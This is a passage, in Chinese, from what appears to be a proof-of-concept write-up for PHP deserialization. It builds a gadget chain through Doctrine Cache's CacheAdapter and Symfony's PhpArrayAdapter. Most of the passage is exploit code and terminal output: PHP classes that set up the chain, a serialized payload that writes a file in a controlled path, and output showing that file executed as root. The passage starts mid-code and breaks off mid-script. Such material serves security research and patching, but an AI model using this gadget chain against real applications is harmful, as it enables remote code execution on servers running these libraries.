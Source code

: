 ```bash
echo serialize($obj);
}
```

如下面的 bash 代码片段所示，在反序列化 payload 之后，在服务器上生成 `aaa.mocksess` 文件，已经成功地在受控路径上创建了一个文件，因此将其作为 PHP 代码执行，成功地触发了注入的代码。

```bash
$ php unserialize.php 

Fatal error: Uncaught TypeError: Doctrine\Common\Cache\Psr6\CacheAdapter::commit(): Return value must be of type bool, null returned in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
Stack trace:
#0 /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php(248): Doctrine\Common\Cache\Psr6\CacheAdapter->commit()
#1 /tmp/poc/unserialize.php(4): Doctrine\Common\Cache\Psr6\CacheAdapter->__destruct()
#2 {main}
  thrown in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php on line 235
$ ls -l /tmp/aaa.mocksess 
-rw-r--r-- 1 root root 51 Feb 13 15:05 /tmp/aaa.mocksess
$ php /tmp/aaa.mocksess 
a:1:{i:0;s:33:"uid=0(root) gid=0(root) groups=0(root)
phpinfo()
PHP Version => 8.1.15
```

## 第三步，执行文件

现在演示包含 payload，下面的代码将允许我们达到之前详细介绍的 `PhpArrayAdapter` `initialize` 函数。

```bash
<?php

namespace Doctrine\Common\Cache\Psr6
{
    class CacheAdapter
    {
        public $deferredItems = true;
    }
    class TypedCacheItem
    {
        public $expiry = 1;
        public $value = "test";
    }

}

namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
    {
    }
}

namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;

$obj = new CacheAdapter();
$obj->cache = new PhpArrayAdapter();

```